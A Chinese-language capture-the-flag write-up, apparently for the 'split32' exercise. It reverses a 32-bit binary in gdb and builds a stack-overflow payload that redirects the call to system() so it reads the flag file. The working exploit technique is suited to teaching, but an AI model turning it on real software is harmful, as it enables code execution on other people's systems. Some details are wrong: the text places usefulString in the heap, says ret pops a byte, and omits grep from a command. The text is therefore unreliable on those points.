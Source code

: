 ## Checksec
| Short | Full | Description |
| --- | --- | --- |
| RELRO | RELocation Read Only | GOT 是否可写 |
| Stack | CANARY | Canary 是否启用（棧溢出检测） |
| NX | No-eXecute | Stack 页是否可执行 |
| PIE / PIC | Position Independent Executable / Code | 需搭配ASLR才能产生作用，细节见第二个section |

本题的 checksec 结果：
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
PIE 没启用，所以至少可以确定 bss, text, data 三个 segments 的位址固定。

<br>

## ASLR 与 PIE 的效果
Linux 中 ASLR 分为三个级别：

| Level | Randomized |
| --- | --- |
| 0（关闭） | - |
| 1（半随机） | shared libraries, stack |
| 2（全随机） | shared libraries, stack, heap |

<br>

PIE (Position Independent Executable) 是 gcc/g++ 中其中一个flag。

若启用，编译出来的执行档可被读取在内存中的任意位址并成功运行。

| Enabled | Randomized Targets |
| --- | --- |
| No | - |
| Yes | bss, text, data, heap |

<br>

## Reverse
列舉一下 functions
```
0x0804857b  main
0x080485f6  pwnme
0x08048649  usefulFunction
```

先逆向 pwnme()，发现其中一个被呼叫的函数是 fgets(buf, 0x60, stdin)。

buf 位于 ebp-0x28 处，若读入>0x28字节就会发生栈溢出。
```
0x0804862f <+57>:  mov    eax,ds:0x804a080
0x08048634 <+62>:  sub    esp,0x4
0x08048637 <+65>:  push   eax
0x08048638 <+66>:  push   0x60
0x0804863a <+68>:  lea    eax,[ebp-0x28]
0x0804863d <+71>:  push   eax
0x0804863e <+72>:  call   0x8048410 <fgets@plt>
```

我们可以通过覆盖 return address 跳转。但是，要跳转到哪里呢？逆向一下 usefulFunction()
```
0x08048649 <+0>:     push   ebp        # setup x86 stack frame
0x0804864a <+1>:     mov    ebp,esp    # setup x86 stack frame
0x0804864c <+3>:     sub    esp,0x8    # allocate space on stack
0x0804864f <+6>:     sub    esp,0xc    # allocate space on stack （为什么要分两步做。。。）
0x08048652 <+9>:     push   0x8048747  # push system() 的参数，参数是一个 char*，一个字串的头位址
0x08048657 <+14>:    call   0x8048430 <system@plt>  # 呼叫 system()：相当于 push eip
0x0804865c <+19>:    add    esp,0x10
0x0804865f <+22>:    nop
0x08048660 <+23>:    leave
0x08048661 <+24>:    ret
```

打印 system() 的参数，发现是 "/bin/ls" 这个字串。但这只能列出 cwd 下的文件，而我们目标是看到 flag，所以要想办法替换这个字串。
0x8048747 我们没办法覆盖到，所以要采取别的办法。
```
pwndbg> x/1s 0x8048747
0x8048747:      "/bin/ls"
```

开一个新的 terminal，用 strings 指令看一下 split32 包含什么字串
```
$ strings split32 | "bin"
/bin/ls
/bin/cat flag.txt
```

那么这个字串位址是啥。。。？我们可以开一个新的 gdb，得到 usefulString 位于 0x0804a030

可以自己用 x 指令确认一下是不是 "/bin/cat flag.txt" 字串，这边就不写这个流程了。
```
pwndbg> info variables
（省略若干条输出）
0x0804a030  usefulString
（省略若干条输出）
```

现在我们基本的思路就是：

1. 在 pwnme() 通过 stack bof 覆盖 return address
2. 执行到 ret 时，跳转 usefulFunction() 里面的 call system()
3. 为什么直接跳到 call system() 而不是它前面一点的地方？因为前一行是 push "/bin/ls"，我们不要这个参数
4. 既然不要这个参数，我们就得自己塞个参数是吧？那么要塞哪里呢？
5. ret = `pop eip`，然后下一条指令就是 `call system()`
6. 所以 call 之前的 esp 处，就是我们要塞 system() 参数的地方！

继续看 pwnme() 里面 fgets() 之后的汇编，发现有个非常sb的行为，居然 add esp, 0x10！？？？
```
0x0804863e <+72>:  call   0x8048410 <fgets@plt>
0x08048643 <+77>:  add    esp,0x10
0x08048646 <+80>:  nop
0x08048647 <+81>:  leave
0x08048648 <+82>:  ret
```

我们只好进行动态分析。断点设 *pwnme+77 并运行。输入几个'A'，然后看看 esp 后内存的内容。

我们可以发现 esp += 0x10 之后，esp正好就位于 buf 的头
```
pwndbg> x/25xw $esp
0xffffc750:	0xffffc760	0x00000060	0xf7f955c0	0xa33cf400
0xffffc760:	0x41414141	0x41414141	0x0000000a	0x00000000
0xffffc770:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffc780:	0x08048706	0x00000000	0xffffc798	0x080485d9
                                       ^ ebp      ^ ebp+4
0xffffc790:	0x00000000	0xffffc7b0	0x00000000	0xf7dcda11
```

接着分析 leave。
1. esp 会指向 ebp 所指向之处 (mov ebp, esp)
2. ebp 接着会变成「进 pwnme() 前的 ebp」 (pop ebp)

执行完 leave 后，esp 在：
```
0xffffc750:	0xffffc760	0x00000060	0xf7f955c0	0xa33cf400
0xffffc760:	0x41414141	0x41414141	0x0000000a	0x00000000
0xffffc770:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffc780:	0x08048706	0x00000000	0xffffc798 [0x080485d9] <-- esp
0xffffc790:	0x00000000	0xffffc7b0	0x00000000	0xf7dcda11
```

接着分析 ret。
1. ret = pop eip，所以会再 pop 一个 byte，也就是说执行 ret 后 esp 会再 += 4

执行完 ret 后，esp 在：
```
0xffffc750:	0xffffc760	0x00000060	0xf7f955c0	0xa33cf400
0xffffc760:	0x41414141	0x41414141	0x0000000a	0x00000000
0xffffc770:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffc780:	0x08048706	0x00000000	0xffffc798  0x080485d9
0xffffc790:[0x00000000]	0xffffc7b0	0x00000000	0xf7dcda11
               ^ esp
```

假设我们通过 bof，覆盖了 return address，现在 eip 得是 call system() 那行的位址了（0x08048657）

call 会直接 push eip, 然后把 eip 设成被呼叫的函数的位址。我们知道进入一个 function 后，return address 下就是接着参数。

因此！！！我们要塞的参数，就是在上图那个 esp 处！！！！！！！！payload 怎么写呢？复习一下我们 buffer 的样子
```
0xffffc760:	0x41414141	0x41414141	0x0000000a	0x00000000
0xffffc770:	0x00000000	0x00000000	0x00000000	0x00000000
0xffffc780:	0x08048706	0x00000000	0xffffc798	0x080485d9
0xffffc790:	0x00000000
```

所以 payload 是 `11 * "AAAA"` + `usefulFunction() 里 call system() 那行指令的位址` + `usefulString 的位址`

因为 PIE 没开启，所以 .text 和 .data 位址都是固定的（上面我们用到的那两个位址，一个在 .text，一个在 .heap），这在编写 exploit 的时候方便许多。

gdb 中进行 pwn：
```
pwndbg> r <<< $(python2 -c 'print 11 * "AAAA" + "\x57\x86\x04\x08" + "\x30\xa0\x04\x08")
ROPE{a_placeholder_32byte_flag!}
```

exploit 脚本请看 exploit.py

---

顺带一提，怎么知道 usefulString 在 .heap?
```
pwndbg> info address usefulString
Symbol "usefulString" is at 0x804a030 in a file compiled without debugging.
```
pwndbg 会有颜色提示，0x804a030 是蓝色的字，代表在 heap 上。
